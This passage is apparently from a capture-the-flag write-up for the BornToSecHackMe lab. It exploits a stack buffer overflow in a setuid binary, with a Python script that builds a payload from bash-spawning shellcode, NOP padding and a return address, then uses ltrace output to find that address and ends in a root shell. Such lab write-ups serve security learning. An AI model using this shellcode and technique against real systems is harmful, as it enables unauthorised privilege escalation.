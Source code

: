 So our payload easy peasy, it shoud look like this :
```text
SHELLCODE + PADDING + ADDRESS OF THE BUFFER
```

This script generates our payload which will be stored in a `payload` file :

```py
addr = b"\xbf\xff\xf8\x98"[::-1]
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
payload = shellcode + (140 - len(shellcode)) * b"\x90" + addr
with open("payload", "wb") as f :
    f.write(payload)
```

And we'll be able to exploit it by running the script like this :
```text
./exploit_me $(cat payload)
```

It won't work yet because the address of our buffer is not known but we can know it by simply throwing our payload at it (with an incorrect address) with ltrace.

It gives us this output :
```text
zaz@BornToSecHackMe:~$ python exploit.py 
zaz@BornToSecHackMe:~$ ./exploit_me^C
zaz@BornToSecHackMe:~$ ltrace ./exploit_me $(cat payload)
__libc_start_main(0x80483f4, 2, 0xbffff774, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff650, "j\013X\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341\315"...)          = 0xbffff650
puts("j\013X\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341\315"...j
                                                                      X�Rfh-p��Rjhh/bash/bin��RQS��̀���������������������������������������������������������������������������������������������������������������
)                        = 145
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
zaz@BornToSecHackMe:~$ 
```

And from this, we know that, the destination argument (the buffer) of the call to strcpy is 0xbffff650.

And badabim badaboum, we modify the addr variable accordingly.
```py
addr = b"\xbf\xff\xf6\x50"[::-1]
```

And when we retry :
```text
zaz@BornToSecHackMe:~$ ./exploit_me $(cat payload)
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀�����������������������������������������������������������������������������������������������������������P���
bash-4.2# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
bash-4.2#
````

